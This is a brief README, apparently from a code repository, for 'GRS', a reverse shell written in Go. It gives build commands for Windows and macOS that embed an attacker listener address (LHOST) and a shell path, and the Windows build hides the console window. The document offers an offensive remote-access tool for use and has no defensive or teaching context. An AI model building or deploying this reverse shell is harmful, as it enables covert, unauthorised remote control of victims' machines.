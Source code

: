 # GRS
### A Golang reverse shell


#### To build:

Windows:

$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"

Darwin:

$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shellPath=**shell path**'" "darwin/GRS.go"

